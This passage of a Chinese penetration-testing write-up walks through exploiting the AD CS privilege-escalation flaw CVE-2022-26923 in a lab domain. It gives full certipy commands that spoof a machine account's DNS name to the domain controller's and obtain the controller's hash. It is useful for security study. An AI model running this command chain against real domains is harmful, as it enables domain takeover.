 拿到 ADCS$的 NTLM v2，去爆破解密就行

# CVE-2022-26923（ADCS 提权漏洞）

Active Directory 域权限提升漏洞 (CVE-2022-26963 ) 允许低权限用户在安装了 Active Directory 证书服务 (AD CS) 服务器角色的默认 Active Directory 环境中将权限提升到域管理员，修改 DNSHostname 为域控机器即可伪造域控机器申请证书

## 漏洞利用

先申请低权限账户证书

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -template User
```

创建机器账户，并把 DNSHostname 改为域控的 DNSHostname

```plain
certipy account create -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21 -user machine1  -dns "AD.penson.org"
```

[![](assets/1708508972-d618c0079ae7b4aa22583561cf0c97d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170932-c26c393a-cfcf-1.png)

获取 Machine 账户证书

```plain
certipy req -username machine1\$@penson.org -password NmfsMZd6cygHXnYM -target 192.168.142.21 -ca penson-ADCS-CA -template Machine
```

[![](assets/1708508972-82f6782c6a293d7cf15053b844556be3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170941-c7ac52fe-cfcf-1.png)

可以发现已经变成 ad 的证书了

验证证书，拿到机器账户 AD$的 hash

```plain
certipy auth -pfx ad.pfx -dc-ip 192.168.142.20 -debug
```
